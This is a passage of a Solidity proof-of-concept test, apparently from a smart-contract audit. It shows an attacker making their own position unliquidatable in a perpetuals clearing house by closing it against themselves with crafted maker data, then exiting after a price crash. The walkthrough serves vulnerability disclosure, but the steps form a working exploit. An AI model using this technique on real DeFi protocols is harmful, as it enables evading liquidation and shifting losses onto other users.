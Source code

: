 ```js
                maker: address(maker),
                isBaseToQuote: true,
                isExactInput: true,
                amount: 1 ether,
                oppositeAmountBound: 100 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );
        ////////////////////////////////////
        /////// normal circumstances ///////
        ////////////////////////////////////
        // 100e18 -> 193.76e18
        // margin ratio < 6.25%
        assertEq(vault.getMarginRatio(marketId, attacker, 193.76e18), 6.24e16);
        // can be liquidated
        assertEq(clearingHouse.isLiquidatable(marketId, attacker, 193.76e18), true);

        /////////////////////////////////////
        /// Attackers trade on their own ////
        /////////////////////////////////////
        // after transaction attacker closePosition in self and set makerData
        bytes memory makerData = abi.encode(IClearingHouse.MakerOrder({ amount: 90 ether }));
        // if price band ratio == 0 
        // for (uint256 i = 0; i < 5; ++i) {
        clearingHouse.closePosition(
            IClearingHouse.ClosePositionParams({
                marketId: marketId,
                maker: address(attacker),
                oppositeAmountBound: type(uint256).max,
                deadline: block.timestamp,
                makerData: makerData
            })
        );
        // }
        //////////////////////////////////
        ///Unable to liquidate normally///
        //////////////////////////////////
        // set price -> 193.76e18
        maker.setBaseToQuotePrice(194e18);
        _mockPythPrice(194, 0);
        // Unable to liquidate
        assertEq(clearingHouse.isLiquidatable(marketId, attacker, 194e18), false);

        //////////////////////////////////
        ///  Attacker closes position  ///
        //////////////////////////////////
        // set price -> 50e18
        maker.setBaseToQuotePrice(50e18);
        _mockPythPrice(50, 0);
        // attacker close position in maker
        clearingHouse.openPosition(
            IClearingHouse.OpenPositionParams({
                marketId: marketId,
                maker: address(maker),
                isBaseToQuote: false,
                isExactInput: false,
                amount: 1 ether,
                oppositeAmountBound: 50 ether,
                deadline: block.timestamp,
                makerData: ""
            })
        );
```